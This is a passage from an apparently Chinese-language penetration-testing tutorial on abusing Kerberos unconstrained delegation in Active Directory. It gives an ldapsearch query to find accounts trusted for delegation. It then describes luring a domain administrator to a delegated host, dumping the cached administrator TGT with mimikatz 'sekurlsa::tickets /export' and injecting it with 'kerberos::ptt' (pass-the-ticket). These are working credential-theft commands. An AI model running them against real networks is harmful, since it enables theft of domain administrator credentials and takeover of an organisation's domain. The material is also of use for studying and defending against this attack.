	ldapsearch -x -W -D "tony" -b "DC=LMRSEC,DC=com" "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -h 10.10.40.50|grep -iE "distinguishedName"

![](images/32.jpg)


### 利用

只有服务账号与主机账号才有委派功能，将tony设置为服务账号。(设置方法见上面)

诱导域管访问被设置了非约束委派的机器，**这个时候域管理员的TGT已经<font color='red'>缓存</font>到域成员主机了，使用mimikatz就可以导出** (网络流量只在域管访问非约束委派机器时会产生，但域管访问非约束委派服务的方式不固定，所以流量也不固定)

非约束委派机器中导出TGT票据（需要本地管理员权限）



域内主机win7上操作：

导出票据(需要本地管理员权限，框框内均为域管票据，导入任何一个即可)：

	mimikatz "privilege::debug" "sekurlsa::tickets /export" exit

![](images/24.png)

导入票据，**通过ptt将TGT注入到当前会话中**(需要本地管理员权限，仅在cmd一起输入时测试通过，一个一个输入测试失败)：

	mimikatz "privilege::debug" "kerberos::ptt <票据名称>" "kerberos::list" exit

